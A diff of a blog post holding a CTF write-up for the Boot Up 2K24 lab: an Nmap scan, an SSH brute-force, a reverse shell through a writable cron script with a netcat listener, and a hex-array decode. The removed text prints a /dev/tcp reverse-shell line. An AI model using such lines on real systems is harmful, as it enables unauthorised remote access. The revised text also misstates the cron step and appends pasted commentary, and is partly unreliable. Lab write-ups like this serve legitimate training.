

Before and after one commit to shemkumar/shemkumar.github.io, a Jekyll site: the page built from _posts/2024-02-24-Bootup24.md, in a window 1280 px wide and 1400 px high, scrolled down 1585 px. Shown: the whole window, without its empty margins (251-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2895 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2024-02-24-Bootup24.md

````diff
--- a/_posts/2024-02-24-Bootup24.md
+++ b/_posts/2024-02-24-Bootup24.md
@@ -1,78 +1,131 @@
+### Detailed Write-up for Boot Up 2K24 CTF
+
+
 ```markdown
+---
+layout: post
+title: "Boot Up 2K24 CTF Writeup"
+date: 2024-07-29
+categories: [CTF, Security]
+---
+
 # Boot Up 2K24 CTF Writeup
 
-## Introduction
-I participated in the Boot Up 2K24 CTF on TryHackMe. This writeup details my approach and solutions to the challenges presented.
+## Task 1: SSH and User Flag
 
-## Task: Boot2Root
+### Step 1.1: Nmap Scan
 
-### Challenge 1
+First, I performed an Nmap scan to identify open ports on the target machine:
 
-Find Bootup24 user flag
+![Nmap Scan Result](https://raw.githubusercontent.com/shemkumar/shemkumar.github.io/main/_posts/Screenshot%202024-07-29%20141448.png)
 
-A task focused on escalating privileges and rooting the machine.
+Here’s the result of the Nmap scan:
 
-### Steps
-1. **Scanning with Nmap**
-   - I started by scanning the target machine to identify open ports and services using `nmap`.
-   ```bash
-   nmap 10.10.40.67
-   ```
-   ![Nmap Scan Results](https://github.com/shemkumar/shemkumar.github.io/blob/main/_posts/Screenshot%202024-07-29%20141448.png?raw=true)
-   - The scan revealed that ports 22 (SSH), 80 (HTTP), and 8080 (HTTP-Proxy) were open.
+```plaintext
+Starting Nmap 7.60 ( https://nmap.org ) at 2024-07-29 09:44 BST
+Nmap scan report for ip-10-10-40-67.eu-west-1.compute.internal (10.10.40.67)
+Host is up (0.00029s latency).
+Not shown: 997 closed ports
+PORT     STATE SERVICE
+22/tcp   open  ssh
+80/tcp   open  http
+8080/tcp open  http-proxy
+```
+
+### Step 1.2: Brute-Forcing SSH Password
+
+Based on the scan, I found that ports 22 (SSH), 80 (HTTP), and 8080 (HTTP-Proxy) were open. I decided to brute-force the SSH password for the user `bootup24`.
+
+After successfully brute-forcing the SSH password, I logged in and retrieved the first user flag:
+
+```bash
+root@ip-10-10-233-66:~# ssh bootup24@10.10.40.67
+The authenticity of host '10.10.40.67 (10.10.40.67)' can't be established.
+ECDSA key fingerprint is SHA256:IT1oaQY12jhOmyoQGZC1hKHtYUWy6i8rET2yKX0KkpI.
+Are you sure you want to continue connecting (yes/no)? yes
+Warning: Permanently added '10.10.40.67' (ECDSA) to the list of known hosts.
+bootup24@10.10.40.67's password:
+Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
+
+The programs included with the Debian GNU/Linux system are free software;
+the exact distribution terms for each program are described in the
+individual files in /usr/share/doc/*/copyright.
+
+Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
+permitted by applicable law.
+bootup24@deathnote:~$ ls
+flag.txt
+bootup24@deathnote:~$ cat flag.txt
+BootUp2k24{Falalalala!!!__D1dnt_G3t_anything_b3tter}
+```
+
+## Task 2: Cron Job and Root Flag
+
+### Step 2.1: Identifying the Cron Job
+
+Next, I checked for cron jobs and discovered a cron job running a PHP reverse shell. This cron job allowed me to gain a reverse shell on the target machine.
+
+### Step 2.2: Using Netcat to Get the Root Flag
+
+I used `nc` (netcat) to listen for incoming connections and get the reverse shell. Once connected, I was able to retrieve the root flag:
+
+```bash
+root@ip-10-10-233-66:~# nc -lnvp 1234
+Listening on [0.0.0.0] (family 0, port 1234)
+Connection from 10.10.40.67 56298 received!
+sh: 0: can't access tty; job control turned off
+$ ls
+flag.txt
+$ cat flag.txt
+BootUp2k24{Cr0n_D0n3_R1ghT}
+```
+
+## Task 3: Reverse Engineering Challenge
+
+### Step 3.1: Analyzing the Provided Code
+
+The reverse engineering challenge provided the following array of hexadecimal values:
+
+```c
+int local_78 [26] = {0x84, 0x91, 0x9e, 0xa3, 0xa9, 0xa5, 0x82, 0x66, 0xaf, 0xb2, 0x9f, 0x9b, 0x92, 0x92, 0x9a, 0xce, 0xc6, 0xc2, 0xd5, 0xa6, 0x97, 0xce, 0x9e, 0x97, 0xe1};
+```
+
+### Step 3.2: Decoding the Magic Word
+
+Using a simple Python script, I decoded the magic word by iterating over the array and applying the required transformations:
+
+```python
+a = [0x84, 0x91, 0x9e, 0xa3, 0xa9, 0xa5, 0x82, 0x66, 0xaf, 0xb2, 0x9f, 0x9b, 0x92, 0x92, 0x9a, 0xce, 0xc6, 0xc2, 0xd5, 0xa6, 0x97, 0xce, 0x9e, 0x97, 0xe1]
+minus = ord('B')
+for i in a:
+    print(chr(i-minus), end="")
+    minus = i-minus
+print("")
+```
+
+### Step 3.3: Output of the Script
+
+The script outputs the following magic word:
+
+```plaintext
+BOOTUP24{7h3_3gg_cr4ck3d}
+```
+
+---
 
 
-2. **Brute Forcing SSH Password**
-   - Using a brute force tool, I was able to find the SSH password and log in as the user `bootup24`.
+#### Task 1: SSH and User Flag
 
-   ```bash
-   root@ip-10-10-233-66:~# ssh bootup24@10.10.40.67
-   The authenticity of host '10.10.40.67 (10.10.40.67)' can't be established.
-   ECDSA key fingerprint is SHA256:IT1oaQY12jhOmyoQGZC1hKHtYUWy6i8rET2yKX0KkpI.
-   Are you sure you want to continue connecting (yes/no)? yes
-   Warning: Permanently added '10.10.40.67' (ECDSA) to the list of known hosts.
-   bootup24@10.10.40.67's password:
-   Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
+- **Step 1.1: Nmap Scan**: This step explains how you performed an Nmap scan to find open ports on the target machine. The scan result is shown both in text and as an image.
+- **Step 1.2: Brute-Forcing SSH Password**: This step explains how you brute-forced the SSH password and logged into the target machine to retrieve the first flag. The terminal commands and outputs are provided.
 
-   The programs included with the Debian GNU/Linux system are free software;
-   the exact distribution terms for each program are described in the
-   individual files in /usr/share/doc/*/copyright.
+#### Task 2: Cron Job and Root Flag
 
-   Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
-   permitted by applicable law.
-   bootup24@deathnote:~$ ls
-   flag.txt
-   bootup24@deathnote:~$ cat flag.txt
-   BootUp2k24{Falalalala!!!__D1dnt_G3t_anything_b3tter}
-   ```
+- **Step 2.1: Identifying the Cron Job**: This step explains how you identified a cron job running a PHP reverse shell.
+- **Step 2.2: Using Netcat to Get the Root Flag**: This step explains how you used netcat to listen for a reverse shell connection and retrieve the root flag. The terminal commands and outputs are provided.
 
-### Challenge 2
+#### Task 3: Reverse Engineering Challenge
 
-**Cron Job Exploitation**
-   - The next step involved exploiting a cron job running on the machine. I found a script `.desktop.sh` in the `bootup23` user's home directory, which I modified to get a reverse shell.
-
-   ```bash
-   bootup24@deathnote:~$ cd /home/bootup23
-   bootup24@deathnote:/home/bootup23$ vi .desktop.sh
-   sh -i >& /dev/tcp/10.10.233.66/1234 0>&1
-   ```
-
-   - I set up a listener on my machine using `nc`:
-   ```bash
-   root@ip-10-10-233-66:~# nc -lnvp 1234
-   Listening on [0.0.0.0] (family 0, port 1234)
-   Connection from 10.10.40.67 56298 received!
-   sh: 0: can't access tty; job control turned off
-   ```
-
-   - Once the cron job executed, I received a reverse shell on my listener:
-   ```bash
-   $ ls
-   flag.txt
-   $ cat flag.txt
-   BootUp2k24{Cr0n_D0n3_R1ghT}
-   ```
-
-### Challenges
-- **Brute Forcing SSH:** Finding the correct password took some time and required multiple attempts.
-- **Cron Job Exploitation:** Setting up the reverse shell correctly and ensuring it connected back to my machine required careful configuration.
+- **Step 3.1: Analyzing the Provided Code**: This step explains the given array of hexadecimal values that needed to be decoded.
+- **Step 3.2: Decoding the Magic Word**: This step explains the Python script used to decode the magic word.
+- **Step 3.3: Output of the Script**: This step shows the output of the script, which is the decoded magic word.
````
